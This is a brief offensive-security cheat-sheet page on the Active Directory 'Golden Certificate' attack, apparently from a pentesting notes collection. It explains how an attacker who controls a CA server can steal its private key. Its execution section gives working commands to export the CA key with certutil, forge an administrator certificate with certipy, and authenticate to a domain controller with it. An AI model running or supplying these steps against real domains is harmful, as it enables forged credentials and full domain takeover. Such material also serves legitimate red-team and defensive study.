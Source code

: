 ```yaml
---
icon: certificate
---
```


# Golden Certificate

## <mark style="color:yellow;">ABOUT</mark>

If an attacker <mark style="color:purple;">**obtains control over a CA server**</mark>, he may be able to <mark style="color:yellow;">**retrieve the private key**</mark> associated with the CA cert, and use that private key to generate and sign client certificates. This means he could **forge (and sign)** certificate to authenticate as a powerful user for example.

There are A LOT of different ways and ESC's to get to CA. but when we do, we can abuse this attack.

## <mark style="color:yellow;">EXECUTION</mark>

#### Export the CA’s private key

```powershell
certutil -exportPFX my "CA-MILITECH" C:\ca.pfx
```

#### Forge a certificate for any domain user

```bash
certipy forge -ca-pfx ca.pfx -upn 'administrator@militech.local' -subject 'CN=Administrator,CN=Users,DC=domain,DC=local' -out forged_admin.pfx
```

#### Authenticate using that certificate

```bash
certipy auth -pfx forged_admin.pfx -username 'administrator' -domain 'domain.local' -dc-ip 13.13.13.13
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/persistence/adcs/certificate-authority#stolen-ca" %}
